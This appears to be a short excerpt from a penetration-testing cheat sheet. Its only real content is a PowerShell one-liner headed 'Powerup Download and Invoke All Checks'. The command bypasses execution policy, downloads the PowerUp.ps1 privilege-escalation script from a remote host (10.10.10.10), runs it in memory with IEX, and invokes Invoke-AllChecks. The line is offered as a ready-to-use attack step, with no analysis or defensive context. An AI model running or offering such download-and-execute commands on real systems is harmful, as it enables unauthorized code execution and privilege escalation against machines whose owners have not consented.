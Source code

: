 Powershell

Powerup Download and Invoke All Checks:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Windows/Powershell/PowerUp.ps1'); Invoke-AllChecks”
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
